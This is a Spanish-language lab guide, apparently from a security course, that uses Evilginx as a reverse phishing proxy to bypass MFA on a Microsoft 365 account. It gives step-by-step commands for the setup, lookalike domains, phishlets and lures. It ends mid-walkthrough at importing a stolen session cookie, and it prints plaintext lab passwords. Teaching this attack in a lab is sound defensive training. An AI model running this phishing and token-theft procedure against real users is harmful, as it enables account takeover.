#  Saltar 2FA en cuentas de M365 con Evilginx
   
  
Requisitos:
1. Máquina `Router-Ubu`.
2. Máquina `Win 11`.
3. Teléfono móvil o emulador `BlueStacks` con la aplicación `Microsoft Authenticator`.
4. Cuenta de `M365 con MFA configurada`. (Nota: El profesor deberá aportar el tenant de 365)
5. Máquina virtual en Internet con `dirección IP pública` y `Evilnginx instalado`. (Nota: El profesor aportará la VM)
6. `Dominio de Internet` con capacidad de redirigir la resolución de la zona a una IP concreta.


Para poder saltar la MFA necesitamos capturar las credenciales que la víctima introduce en el cuadro de diálogo de autenticación de M365. Para conseguir eso, necesitamos realizar un ataque MitM y enviar un enlace malicioso (phishing).

El ataque MitM se realizará mediante ***Evilnginx***, que actuará como proxy inverso. Cuando la víctima reciba el enlace de phishing, conectará con la VM de Internet que tiene instalado Evilgninx que le mostrará el cuadro de diálogo de autenticación de Office 365. La víctima escribirá sus credenciales y evilginx, realizará una redirección hacia el servidor de autenticación de Microsoft.

En este momento, Microsoft solicitará a la víctima la introducción del ***segundo factor de autenticación***, que generalmente será a través de la aplicación ***Microsoft Authenticator***. Cuando la víctima escriba la información requerida, Microsoft enviará una ***cookie de autorización*** a la víctima, que será utilizada como token para los servicios de M365.

Puesto que el MitM sigue funcionando, Evilxginx también obtendrá dicha cookie de autorización.

En consecuencia, solo queda usar un navegador, importar la cookie que se ha capturado y ya se podrá acceder a los servicios de M365 de la víctima.

La siguiente imagen resume los eventos y actores que tienen lugar en una conexión normal con el servicio.


Ahora, podrás descubrir la configuración del ataque. Observa la imagen.


En este escenario el actor realiza un ataque de phishing a la víctima, por ejemplo mediante un correo electrónico en el que se indica que ha compartido con esta un enlace a un documento de Excel. Cuando la víctima hace clic en el vínculo malicioso, se conecta al servidor evilginx ***(1)***, donde éste muestra un cuadro de diálogo de inicio de sesión que es idéntico al original. Normalmente, la víctima no va a sospechar por dos razones.

1) Aunque en la barra de direcciones de su navegador aparece la URL y ésta no es la "oficial" de Microsoft, el dominio elegido por el actor de la amenaza suele ser muy parecido. También es muy normal, que los usuarios se limiten a hacer clic en el enlace y no miren la URL a la que se conectan.

2) Office 365 muestra con cierta frecuencia el diálogo de autenticación, por lo que la mayoría de los usuarios no advertirán que se trata de un falso servidor (evilginx) quien lo está mostrando.

En consecuencia la víctima escribe sus credenciales, que son capturadas por ***evilginx*** y, puestas a disposición del actor de la amenaza.

El resto de proceso es mu simple, Microsoft envía el reto de MFA y la víctima toma su teléfono móvil para escribir el código indicado ***(4)***. La aplicación de autenticación contacta con los servidores de Microsoft ***(5)*** que validan el factor de autenticacion. Se envía la cookie de sesión, con el token de autorización al proxy ***(6)***.

Ahora, ***evilginx*** envía el token de autorización al navegador de la víctima y lo redirige hacia la página de Office 365 ***(7)***. 

El actor  de la amenaza usa el token capturado para acceder a los recursos de Office 365 de la víctima ***(9)***. Además, también ha capturado la contraseña de la víctima.


## Ejercicio 1: Crear tenant de M365.

El profesor creará el tenant de M365.

Una vez creado, accedemos a él por medio de la página web de administración de M365.


En la máquina `Win 11` abrimos el navegador y nos conectamos a.
```
https://portal.office.com
```

Iniciar sesión con la credencial del administrador global del tenant.


## Ejercicio 2: Habilitar la MFA para el usuario de M365.

Accede al portal de administración y activa la MFA para el usuario, tal y como muestra la siguiente pantalla.


## Ejercicio 3: Configurar Microsoft authenticator en emulador Android.

Si lo prefieres puedes usar tu móvil. Nosotros usaremos el emulador de Android BlueStacks.

Crea una instancia de teléfono. Si usas BlueStacks 5, elige ***Pie 64-bit***.


Procede a descargar la instancia, e iníciala. El resultado será el siguiente.


Accede a la ***App Store***. Como el dispositivo es nuevo tendrás que configurarle una cuenta de ***Gmail***.

En la ***App Store***, localiza ***Microsoft Authenticator*** e instálala. 

Ahora, selecciona la opción ***Agregar una cuenta profesional o educativa***.


Iniciamos sesión con la credencial del usuario de 365 del tenant (Nota: El usuario será diferente al que muestra la captura de pantalla)


Escribimos la contraseña.


Avanzamos hasta llegar a la siguiente pantalla.


Como la aplicación ***Microsoft Authenticator*** está instalada, hacemos clic en ***Siguiente***.

Solo queda asociar la cuenta del usuario de 365 con la aplicación de autenticación, haz clic en el vínculo que señala la imagen.


La cuenta ha quedado configurada.


Si haces clic en ella, verás es OTP (One Time Password) que será usado como 2FA.


## Ejercicio 4. Crear una VM en Azure e instalar Evilginx

En Azure (o cualquier otro proveedor que permitar crear una VM con IP pública), creamos una instancia de un Ubuntu Server. Abrir los puertos 22, 80 y 443. Como usuario poner ***antonio*** y contraseña ***Pa55w.rd12345***.

En la configuración de los Grupos de Seguridad de Red (NSG) debemos abrir el puerto ***53*** por ***UDP*** de entrada. De forma que queden de la siguiente manera.


Tomamos la IP pública de la VM
```
PUBLIC_IP=<Poner aquí la IP Pública de la VM>
```

En una terminal de la máquina de Kali, escribimos.
```
ssh antonio@$PUBLIC_IP
```

Escribimos la contraseña
```
Pa55w.rd12345
```

Actualizamos los repositorios.
```
sudo apt update
```

Instalamos ***Git*** y el compilador de lenguaje ***Go***.
```
sudo apt install -y git golang-go
```

La documentación del proyecto la puedes encontrar en este sitio.
```
https://github.com/BakkerJan/evilginx2.git
```

Procedemos a clonar ***evilginx*** en la máquina virtual. En la terminal escribimos.
```
git clone https://github.com/BakkerJan/evilginx2.git
```

Entramos en la carpeta ***evilginx2***
```
cd evilginx2
```

Listamos el directorio
```
ls -l
```

El resultado es el siguiente. Observa como hay un archivo ***makefile***.


Esto significa que tenemos que preparar (compilar) la aplicación para que esta funcione. Necesitamos instalar el comando ***make***. En la terminal, escribimos.
```
sudo apt install make 
```

y después.
```
make
```

Instalamos.
```
sudo make install
```

Iniciamos evilginx.
```
sudo evilginx
```

Ya hemos comprobado que la aplicación funciona, así que salimos de ella pulsando la tecla ***q***.

Como has visto, ***evilginx*** se lanza desde una terminal. Eso es un problema en Linux, ya que cuando cerremos la conexión ***ssh*** el proceso de evilginx también finalizará. Necesitamos pues algo que mantenga la terminal abierta aunque cerremos la conexión de ssh y, de esta forma, consiga que evilginx se mantenga funcionando todo el tiempo. Para ello usaremos ***screen***.

Instalamos ***screen***.
```
sudo apt install screen
```

Creamos una screen.
```
screen
```

Para listar las screens que tenemos, escribimos.
```
screen -list
```

En la imagen puedes ver cómo existe una screen  que es en la que nos encontramos, porque pone ***Attached***. En esta screen es en la que ejecutaremos evilginx.


Para volver a la terminal original, pulsamos la siguiente combinación de teclas ***CTRL + a*** y ***CTRL + d***.

Volvamos a listar las screens.
```
screen -list
```

Ahora ya no estamos dentro de esa screen, sino en la terminal original. Como puedes ver, la imagen nos dice que existe una screen pero no estamos conectados a ella.


Para entrar en la screen, ejecutamos el comando siguiente. Nota, el identificador de la screen será diferente. Usa el que te aparezca.
```
screen -r 7045.pts-0.evilginx
```

Si has ejecutado esta demo anteriormente va a ocurrir que Evilginx seguirá usando los certificados que solicitó anteriormente e Let's Encrypt. Estos certificados es probable que estén caducados. Por consiguiente vamos a proceder a eliminarlos para que Evilginx solicite otros nuevos. Ejecuta el siguiente comando.
```
sudo rm -r -f  /root/.evilginx/crt/evilginx.antsala.xyz
```

En esta screen lanzaremos evilginx, así que escribe el siguiente comando.
```
sudo evilginx
```

Como puedes ver, evilginx se ha iniciado.


Vamos a dejarlo corriendo en esta screen, así que salimos de ella con ***CTRL + a*** y ***CTRL + d***. Volveremos posteriormente para configurar el ataque.

# Ejercicio 5: Crear un dominio de ataque y hacer que los servidores de zona apunten a evilginx.

Como hemos explicado al principio, el ataque se basa en conseguir que la víctima haga clic en un enlace que la lleve al servidor de evilginx. Por lo tanto, lo primero que debemos hacer es "contratar un dominio".

Para la autenticación con una cuenta de M365, el navegador del usuario conectará con ***login.microsoftonline.com***. Con la idea de engañar a la víctima y que no sospeche, intentaremos contratar un dominio que sea muy similar a este, observa la siguiente imagen.


Para la inmensa mayoría de los usuarios resultará imposible interpretar la diferencia entre `login.microsoftonline.com` y `login.microsoft-on-line.com`.


El actor de la amenaza procederá a contratar dicho dominio. Para el resto del laboratorio, el dominio contratado no tiene como finalidad engañar al usuario y, además será fácilmente reconocible en esta práctica como dominio de ataque.

El dominio elegido es `evilginx.antsala.xyz` , por lo que la DNS de ataque final tendría la forma de `login.evilginx.antsala.xyz`

Ahora es necesario que, cuando la víctima caiga en la trampa y haga clic en el link de phishing que se le enviará, su navegador conecte con los endpoint apropiados del servidor ***evilginx*** que simularán ser los auténticos. Para ello debemos hacer que el servidor de DNS que resuelva los registros del dominio elegido sea el propio ***evilginx***.

En la página del registrador debemos hacer que los registros ***NS*** apunten a la IP pública del servidor ***evilginx***.

Como en esta demostración, el servidor a usar es una máquina virtual en Azure, puedes ver el la siguiente imagen cómo se ha indicado que la zona ***antsala.xyz*** la lleva Azure.


Es el momento de ir a Azure y configurar una Zona de DNS, y para hacerla coincidir con el ejemplo, será una subzona, concretamente ***evilginx.antsala.xyz***.

Estudia la imagen.


Los endpoints de autenticación de Microsoft van a ser suplantados por el servidor ***evilginx***. Por esa razón, es necesario dar de alta ciertos registros de tipo A, que deberán apuntar a la IP pública en la que está el servidor ***evilginx***. En este caso ***login*** y ***www***. Más adelante, en el laboratorio, aprenderás a determinar los endpoints necesarios para hacer el hackeo.

# Ejercicio 6: Configuración de evilginx para realizar el ataque a una cuenta de M365.

De vuelta a la terminal de ssh, conectamos con la screen donde está corriendo ***evilginx***.

Lo primero que debemos hacer es configurar el dominio de ataque, que en nuestro ejemplo es
```
evilginx.antsala.xyz
```

Ejecutamos el siguiente comando.
```
config domain evilginx.antsala.xyz
```

El prompt indica que el dominio ha sido configurado correctamente.


Es el momento de indicar cuál es la IP pública del servidor ***evilginx***. Escribimos el siguiente comando.
```
config ip 20.107.49.100
```


Una vez que el servidor ***evilginx*** esté funcionando, observarás que empieza a tener conexiones. Esto se debe al tráfico de Internet, arañas incluidas. Nosotros no queremos que este tráfico se mezcle con la conexión que en breve realizará la víctima. Por ello, vamos a bloquear todo el tráfico excepto el de nuestra víctima. 

Aún queda un poco para crear los señuelos (***lures***) que se expresan como una un directorio dentro del servidor web, en la forma ***/DSSDFDGRTEDW*** u otra cadena aleatoria. Para ello ejecutamos el siguiente comando.

```
blacklist unauth
```

Las IPs provenientes de las conexiones al servidor que no tengan como destino el señuelo serán metidas en una lista negra y rechazadas a partir de ahora.


Es el momento de configurar el ***phishlet***, que es una forma de generalizar los ataques. De esta manera ***evilginx*** no solo puede atacar a M365, sino al resto de servicios importantes en Internet. 

Abandonamos momentáneamente la screen donde está corriendo ***evilginx***. Para ello pulsamos la combinación de t eclas ***CTRL+a, CTRL+d***. Volveremos a la terminal de ssh original. 

Lista el directorio. 

```
ls -l
```

Verás una carpeta llamada ***phishlets***.


Entramos en esa carpeta y listamos el contenido.

```
cd phishlets
ls -l
```

Los ***phishlets*** son archivos YAML que indican a ***evilginx*** como debe configurarse. Observa el de O365.


Edítalo con ***nano***.
```
nano o365.yaml
```

Por descontado que deberías leerte la documentación del proyecto ***evilginx*** relativa a los ***phishlets***, pero para entender esta demo solo necesitas localizar los nombres de los endpoints del servicio original.


Como puedes ver, hay tres.

1) `login.microsoftonline.com`
2) `www.office.com`
3) `login.microsoftonline.com`  (Que a diferencia del primero tiene el atributo ***session*** a ***true***)

En consecuencia son dos DNS, `login.microsoftonline.com` y `www.office.com` que es donde se conectaría el navegador de la víctima. Esos dominios van a ser sustituidos respectivamente por `login.evilginx.antsala.xyz` y `www.evilginx.antsala.xyz`. Por esa razón, se dieron de altas sendos registros de recursos de tipo A en la zona de DNS.


Regresamos a la screen de ***evilginx*** para seguir configurándolo. Nota, el identificador de la screen será diferente. Usa el que te aparezca.
```
screen -r 7045.pts-0.evilginx
```
Vamos a configurar el ***phishlet*** con el dominio de ataque.
```
phishlets hostname o365 evilginx.antsala.xyz
```

En la imagen puedes apreciar cómo se asocia el dominio de ataque al phishlet de Office 365. 



El phishlet aparece desactivado. Lo habilitaremos con el siguiente comando.
```
phishlets enable o365
```

Ahora tenemos un momento crucial. Evilginx va a montar endpoints hacia las DNS de autenticación falseadas de Microsoft, concretamente `login.evilginx.antsala.xyz` y `www.evilginx.antsala.xyz`. Estos endpoints necesitan HTTPS, por ello se van a pedir a ***Let's Encrypt*** los certificados apropiados. Una vez que finalice el proceso, se mostrará un mensaje indicando que se han configurado los certificados para los dominios de ataque.


Ahora toca crear los `señuelos` (lures), que permitirán obtener la URL de phishing que se le pasará a la víctima.

Eecribe el siguiente comando para crear el señuelo.
```
lures create o365
```



Se ha creado un señuelo con id 0. Para ver la URL de phishing ejecutamos.
```
lures get-url 0
```



Cuando el usuario haga clic en el vínculo malicioso y se hayan capturado sus credenciales, habrá que redireccionarlo a la URL correcta de Microsoft, por ejemplo `https:/portal.office.com`. Ejecuta el siguiente comando.

```
lures edit 0 redirect_url https://portal.office.com
```



El ataque está preparado. Para ver los `phishlets` que tenemos activos, escribimos.
```
phishlets
```



Para verificar los señuelos, escribimos.

```
lures
```




# Ejercicio 7: Realizar el ataque.

En una máquina de Windows 11, simularemos el clic de la victima al link de phishing. En este caso, la víctima será un `Global administrator` de un tenant de 365. Iniciamos sesión en con las credenciales de la víctima en dicho tenant. Estas son:

Usuario.
```
admin@M365x17716089.onmicrosoft.com
```



Contraseña.
```
Jm#5#UaJxr#59N#3
```



Como el usuario tiene habilitada la MFA, nos pide que escribamos el código en la aplicación de autenticación.



Escribimos el código en la aplicación de autenticación.


Como podrás comprobar, se inicia la sesión en M365.




Ahora, el actor de la amenaza envía un correo con spear phishing al administrador del tenant.

La víctima, recibirá el correo malicioso. Observa como aparece el enlace de phishing en el texto.




Cuando se hace clic en el enlace, la víctima debe autenticarse en Office para acceder al archivo. Observa la URL de phishing en la barra de direcciones.



La víctima escribe sus credenciales. Como puedes observar ***evilginx*** las ha capturado.



La víctima prosigue con su inicio de sesión, escribiendo el código de la MFA en la aplicación de autenticación.

Como puedes ver en la terminal, se han capturado los tokens OAuth que Microsoft ha enviado a la víctima. El señuelo configurado redirige a la víctima al portal de Office.



Para ver los tokens de sesión capturados escribimos.
```
sessions
```

En el ejemplo, la sesión ***8*** tiene capturados los tokens.


Para ver el token, escribimos.

```
sessions 8
```

Y aquí aparece el token de sesión, a cuyo portador se le autoriza el acceso a los recursos de Office de la víctima.



El actor de la amenaza solo necesita conectar con M365 y presentar dicho token. Para ello, en la máquina `Windows 11` instala chrome como navegador.

Es necesario usar algún plugin que nos permita crear una cookie a partir del token de autorización capturado. Por ejemplo este: 
```
https://chromewebstore.google.com/detail/cookie-editor/hlkenndednhfkekhgcdicdfddnkalmdm?pli=1
```

Una vez que tengas la extensión de Chrome instalada copia en el portapapeles el token oauth que capturó evilginx.



Con Chrome conéctate a y quédate en el diálogo en el que te pide el nombre de usuario.
```
login.microsoftonline.com
```

